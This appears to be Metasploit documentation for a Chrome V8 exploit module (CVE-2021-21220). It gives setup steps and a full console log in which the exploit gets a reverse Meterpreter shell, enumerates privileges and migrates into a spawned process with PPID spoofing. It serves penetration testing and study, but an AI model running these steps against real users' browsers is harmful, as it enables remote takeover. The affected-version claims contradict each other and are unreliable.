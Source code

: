 ## Vulnerable Application

This module exploits CVE-2021-21220 an out of bounds access issue in Google Chrome versions before
89.0.4389.128/90.0.4430.72 (64 bit) that was reported as part of Pwn2Own 2021 by Bruno Keith and
Niklas Baumstark of Dataflow Security.

The exploit takes advantage of a lack of proper input validation in the V8 engine on x86_x64 builds
of Chrome when handling XOR operations within JIT compiled code. Successful exploitation leads to RCE execution
within the context of the V8 renderer.

Note that as the V8 renderer is sandboxed within typical Chrome setups, the browser must be run without a sandbox by using
the --no-sandbox option for the payload to work correctly.

The module is compatible with any 64bit Google Chrome (versions before 87.0.4280.88) on multiple platforms.
However, the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://chromium.cypress.io/win64/beta/90.0.4430.70](https://chromium.cypress.io/win64/beta/90.0.4430.70)

## Verification Steps

1. Do: `use exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation`
2. Do: `set URIPATH / [PATH]`
3. Do: `set LHOST [IP]`
4. Do: `set SRVHOST [IP]`
5. Do: `exploit`

## Options
None

## Scenarios

### Windows 10 and Google Chrome 90.0.4430.0 with --no-sandbox

Start Google Chrome without a sandbox, e.g:
`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`

```
msf > use exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > set TARGET 1
TARGET => 1
msf exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > show options

Module options (exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local mac
                                       hine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.17.233.206   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows 10 - Google Chrome < 89.0.4389.128/90.0.4430.72 (64 bit)


msf exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) >
[*] Started reverse TCP handler on 172.17.233.206:4444
[*] Using URL: http://0.0.0.0:8080/F6htJoKY5li
[*] Local IP: http://172.17.233.206:8080/F6htJoKY5li
[*] Server started.
[*] 172.17.236.178   chrome_cve_2021_21220_v8_insufficient_validation - Sending /F6htJoKY5li to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.0 Safari/537.36
[*] Sending stage (200262 bytes) to 172.17.236.178
[*] Meterpreter session 1 opened (172.17.233.206:4444 -> 172.17.236.178:65165) at 2021-04-27 13:19:35 -0500

msf exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > use post/windows/manage/migrate
msf post(windows/manage/migrate) > show options

Module options (post/windows/manage/migrate):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   KILL       false            no        Kill original process for the session.
   NAME                        no        Name of process to migrate to.
   PID        0                no        PID of process to migrate to.
   PPID       0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
                                         .
   PPID_NAME                   no        Name of process for PPID spoofing when creating a new process.
   SESSION                     yes       The session to run this module on.
   SPAWN      true             no        Spawn process to migrate to. If set, notepad.exe is used.

msf post(windows/manage/migrate) > set SESSION 1
SESSION => 1
msf post(windows/manage/migrate) > run

[*] Running module against DESKTOP-KUO5CML
[*] Current server process: chrome.exe (10116)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 8732
[+] Successfully migrated into process 8732
[*] Post module execution completed
msf post(windows/manage/migrate) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getpid
Current pid: 8732
meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-KUO5CML
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
